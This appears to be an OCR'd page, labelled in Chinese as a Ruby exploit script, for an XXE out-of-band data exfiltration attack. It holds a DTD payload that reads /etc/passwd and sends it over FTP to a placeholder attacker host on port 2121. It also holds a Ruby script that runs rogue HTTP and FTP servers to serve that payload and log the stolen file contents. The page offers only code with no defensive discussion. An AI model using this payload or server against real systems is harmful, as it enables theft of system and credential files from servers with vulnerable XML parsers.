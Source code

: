 ```text
<!ENTITY % d SYSTEM "file:///etc/passwd">                                     
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://<evil attacker hostname>:2121/%d;'>">
```

ruby利用脚本：

```text
require 'socket'

ftp_server = TCPServer.new 2121
http_server = TCPServer.new 8088

log = File.open( "xxe-ftp.log", "a")

payload = '<!ENTITY % asd SYSTEM "file:///etc/passwd">'

Thread.start do
loop do
  Thread.start(http_server.accept) do |http_client|
    puts "HTTP. New client connected" 
    loop {
        req = http_client.gets()
        break if req.nil?
        if req.start_with? "GET"
            http_client.puts("HTTP/1.1 200 OK\r\nContent-length: #{payload.length}\r\n\r\n#{payload}")    
        end
        puts req
    }  
    puts "HTTP. Connection closed" 
  end
end

end

Thread.start do
loop do
  Thread.start(ftp_server.accept) do |ftp_client|
    puts "FTP. New client connected"
    ftp_client.puts("220 xxe-ftp-server")
    loop {
        req = ftp_client.gets()
        break if req.nil?
        puts "< "+req
        log.write "get req: #{req.inspect}\n"

        if req.include? "LIST"
            ftp_client.puts("drwxrwxrwx 1 owner group          1 Feb 21 04:37 test")
            ftp_client.puts("150 Opening BINARY mode data connection for /bin/ls")
            ftp_client.puts("226 Transfer complete.")
        elsif req.include? "USER"
            ftp_client.puts("331 password please - version check")
        elsif req.include? "PORT"
            puts "! PORT received"
            puts "> 200 PORT command ok"
            ftp_client.puts("200 PORT command ok")
        else
            puts "> 230 more data please!"
            ftp_client.puts("230 more data please!")
        end
    }
    puts "FTP. Connection closed" 
  end
end
```